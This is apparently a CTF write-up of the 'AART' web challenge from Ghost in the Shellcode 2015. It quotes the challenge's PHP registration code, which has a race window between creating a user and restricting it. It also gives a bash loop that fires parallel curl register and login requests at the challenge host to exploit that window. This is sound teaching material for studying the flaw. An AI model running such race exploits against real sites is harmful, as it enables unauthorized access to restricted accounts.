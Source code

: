 ```yaml
---
layout: post
title: "AART"
date: 2015-01-18
ctf: Ghost in the Shellcode 2015
author: Pegasus
---
```


##Web
###200 Points

Also found [here](http://www.rjthomas.eu/2015/01/19/afnom-ghost-in-the-shellcode-2015-ctf-write-up/)

The challenge was supplied with source code which had the PHP scripts and the schema for the database running on the site. We noticed that for a while, submitted 'artwork' wasn't correctly showing up on the homepage, and we assume this was fixed as we saw people trying to run different attempts.

From the source code, we didn't have much to work from - we identified a few opportunities for injection, notably in the $_POST used by PHP. However, we couldn't inject anything useful there, as the username was sanitised and the password was simply matched against entries.

One interesting thing we noticed however was this in register.php.
{% highlight php %}
if(isset($_POST['username'])){
  $username = mysqli_real_escape_string($conn, $_POST['username']);
  $password = mysqli_real_escape_string($conn, $_POST['password']);

  $sql = "INSERT into users (username, password) values ('$username', '$password');";

  mysqli_query($conn, $sql);
  $sql = "INSERT into privs (userid, isRestricted) values ((select users.id from users where username='$username'), TRUE);";
  mysqli_query($conn, $sql);
  ?>
  <h2>SUCCESS!</h2>
{% endhighlight %}

  So - what does this mean for us?
  Well, there's a race condition present in this 'snippet' - it inserts the user details (sanitised, of course!) into the database, and then performs a second query to restrict the account (you don't get access to the key if your user ID is present in this restricted table. Thanks to Abstract for this idea.

  This meant we had to find a way around this bit of code:
{% highlight php %}
$uid = $row['id'];
$sql = "SELECT isRestricted from privs where userid='$uid' and isRestricted=TRUE;";
$result = mysqli_query($conn, $sql);
$row = $result->fetch_assoc();
if($row['isRestricted']){
  ?>
  <h2>This is a restricted account</h2>
  <?php
  }else{
    ?>
    <h2><?php include('../key');?></h2>
    <?php
  }
  ?>
{% endhighlight %}

    So - one could write something that performs some multi-threaded operations and manages to perform a login operation just as the account is registered and the privileges aren't restricted. This is going to be a bit difficult to time correctly, so why not just use a bash script with cURL?

{% highlight bash %}  
  #!/bin/bash
  for i in {1..50}
  do
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/register.php -s >&1 >/dev/null &
  curl --data "username=leet_hackeri$i&password=12345" http://aart.2015.ghostintheshellcode.com/login.php
  done
{% endhighlight %}

    With this done, any registration queries would be executed, but I wouldn't be inundated with the HTML generated by the registration pages and only get the results of the login pages.
    Over time, I started to see 'this is a key', instead of 'This is a restricted account'. Now, I thought nothing of this until I saw it repeatedly inside a <h2> tag. This tied in what was in the PHP script where the privileges were not set. Submitting 'this is a key' as the token gave us a correct answer and the 200 Points for the challenge.
    Notes

    For this to have worked, it's a 'all in or bust' attempt. Once the account is registered, there's no going back, so you immediately need to test it, hence why the bash script was written as it was. If we had tried this in a browser (unless we had BURP intercepting everything and we delayed until we were ready for the right time), we likely would not have succeeded.
    I've also seen some interesting solutions using Python and Perl, all of which are as suitable as mine, but I found this would do the work for me.
